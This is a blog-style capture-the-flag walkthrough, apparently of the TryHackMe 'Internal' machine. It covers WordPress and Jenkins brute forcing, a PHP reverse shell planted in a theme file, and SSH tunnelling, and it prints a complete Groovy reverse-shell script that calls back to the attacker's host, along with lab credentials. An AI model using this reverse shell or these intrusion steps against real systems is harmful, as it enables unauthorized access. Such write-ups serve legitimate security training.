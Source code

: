 +++
date = '2024-11-18T21:56:18+01:00'
draft = false
title = 'Internal Walkthrough'
tags = ["TryHackMe"]
+++

So lets deploy the machine and start enumerating.

![internal1](/images/internal/0.png)

We can see ssh open on port 22 and a http web server on port 80. If we enter on 10.10.199.61 we see Apache2 Ubuntu Default Page.

![](/images/internal/1.png)

After some directory enumeration, we find the following:

```
/blog

/phpmyadmin

/javascript

/wordpress/wp-login.php
```

![](/images/internal/2.png)



It is necessary to add internal.thm to our /etc/hosts file to navigate through the website.

Since we know admin is a user because he has a post on the website, we can brute force the login page using wpscan and rockyou.txt for the password.

![](/images/internal/3.png)

So we found admin:my2boys as valid credentials now we can log in.

Now if we go to Appearence we can see some php files, let's create edit them and add our php reverse shell. Later with a nc listener we can get access. [http://internal.thm/blog/wp-content/themes/twentyseventeen/search.php](http://internal.thm/blog/wp-content/themes/twentyseventeen/search.php)

![](/images/internal/4.png)

Now just access link of the edited php file and we are in.

Let's upgrade our shell

`python -c 'import pty; pty.spawn("/bin/bash")'`

Using linpeas we find some interesting information. wordpress:wordpress123 credentials

some phpmyadmin credentials we can check on config file.

![](/images/internal/5.png)

`phpmyadmin:B2Ud4fEOZmVq`

Let's go into phpmyadmin page which we find before with directory enumeration and check what is in.

Nothing interesting.

Enumerating a little bit more trying to locate .txt for flags we find intersting file.

![](/images/internal/6.png)

aubreanna:bubb13guM!@#123 Now we can connect through ssh.

Once in we see a txt file with a jenkins server which is not reachable from our machine. We need to do SSH tunneling to forward that server so we are able to reach it from our machine.

![](/images/internal/7.png)

Now from port 3333 we can access the server.

![](/images/internal/8.png)

Now we use hydra to burteforce admin user on jenkins.

![](/images/internal/9.png)

We got credentials!! admin:spongebob

Now on jenkins at /script we can run Goovy scripts and get a reverse 
shell. 
```
String host="10.11.18.85";

int port=6666;

String cmd="/bin/sh";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())

{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while( si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try

{p.exitValue();break;}catch (Exception e){\}};p.destroy();s.close(); With a netcat listener we get access.
```

So once in the system we use find command to locate files like we did to see if we get something interesting.

/opt/note.txt seems similar to previous one.

We found root credentials on the file!! root:tr0ub13guM!@#123&#x20;

Now we can ssh as root and get last flag.
